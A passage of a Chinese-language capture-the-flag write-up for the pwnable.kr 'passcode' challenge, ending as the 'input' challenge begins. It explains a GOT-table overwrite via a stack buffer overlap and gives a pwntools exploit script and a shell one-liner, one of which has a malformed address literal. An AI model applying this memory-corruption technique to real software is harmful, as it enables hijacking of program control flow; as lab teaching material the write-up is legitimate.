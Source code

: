 所以直接想符合这个条件是不可能了。

这里用到了一个叫`GOT表覆写`的操作，GOT表是一个函数指针数组，里面的函数地址可写，故我们可以通过改变函数的地址来改变程序流程。

用IDA可以看到`welcome`函数的`name`数组长度有100，由于`welcome`函数和l`login`函数是连续执行，中间没有压栈等操作，故ebp是相同的。而name的地址为`ebp-0x70`，passcode1的地址是`ebp-0x10`，相差0x60即96，所以正好还有四个字节可以供我们将got表的`printf`函数地址传进passcode1，然后把`system('/bin/cat flag')`的地址传进passcode2，达到修改got表里`printf`函数地址的目的，下次执行`printf`函数时即`cat flag`。

> 一个trick：IDA里`crtl+s`可以查看各个段的地址

#### 第一种方法：运行exp脚本

在passcode文件夹里没有权限，我们可以退到tmp文件夹里编写脚本(不知道为什么提示没有权限写...)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *

io = process('./passcode')

payload = 'a'*0x60
payload += p32(804A000) + '\n'
#0x80485E3 = 134514147
payload += '134514147\n'

io.sendline(payload)
io.interactive()
```

#### 第二种方法：python -c

```shell
python -c "print 'a'*0x60+'\x00\xa0\x04\x08\n'+'134514147\n'" | ./passcode
```



### input

> Mom? how can I pass my input to a computer program?
>
> On Jul 31,2018

这题考察的都是我不会的。。。我真菜

#### level1

```c
	// argv
	if(argc != 100) return 0;
	if(strcmp(argv['A'],"\x00")) return 0;
	if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
	printf("Stage 1 clear!\n");	
```
